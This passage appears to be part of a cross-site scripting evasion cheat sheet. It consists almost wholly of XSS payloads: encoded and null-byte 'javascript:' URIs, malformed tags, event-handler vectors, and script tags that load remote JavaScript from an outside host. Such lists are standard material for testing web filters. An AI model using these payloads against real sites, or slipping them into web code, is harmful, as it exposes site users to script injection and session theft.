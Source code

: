 ```<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>```
<IMG SRC="jav&#x0A;ascript:alert('XSS');">```

##Embedded CR
##obsolete form
```<IMG SRC="jav&#x0D;ascript:alert('XSS');">
<IMG SRC="/x" onerror="jav&#x0D;ascript:alert('XSS');">```

##Null
##obsolete form
```<IMG SRC="jav%00ascript:alert('XSS');">
<IMG SRC="/x" onerror="jav%00ascript:alert('XSS');">```

##Spaces and meta chars before the JavaScript in images for XSS
##obsolete form
```<IMG SRC=" &#14;  javascript:alert('XSS');">
<IMG SRC="/x" onerror=" &#14;  javascript:alert('XSS');">```

##Non-alpha-non-digit XS
```<SCRIPT/XSS SRC="http://ha.ckers.org/xss.js"></SCRIPT>```

##this is bogus or obsolete
```<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>```

```<SCRIPT/SRC="http://ha.ckers.org/xss.js"></SCRIPT>```

##Extraneous open brackets
```<<SCRIPT>alert("XSS");//<</SCRIPT>```

##No closing script tags
```<SCRIPT SRC=http://ha.ckers.org/xss.js?< B >```

##Protocol resolution in script tags
```<SCRIPT SRC=//ha.ckers.org/.j>```

##Half open HTML/JavaScript XSS vector
```<IMG SRC="javascript:alert('XSS')"```

##Double open angle brackets
```<iframe src=http://ha.ckers.org/scriptlet.html <```

##Escaping JavaScript escapes
##N/A

##End title tag
```</TITLE><SCRIPT>alert("XSS");</SCRIPT>```

##INPUT image
```<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">```

##BODY image
```<BODY BACKGROUND="javascript:alert('XSS')">```

##IMG Dynsrc
##Wildly obsolete
```<IMG DYNSRC="javascript:alert('XSS')">```

##IMG LOW src
##Wildy obsolete
```<IMG LOWSRC="javascript:alert('XSS')">```

##List-style-image
##likely obsolete
```<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>```

##VBscript in an image
```<IMG SRC='vbscript:msgbox("XSS")'>```
```
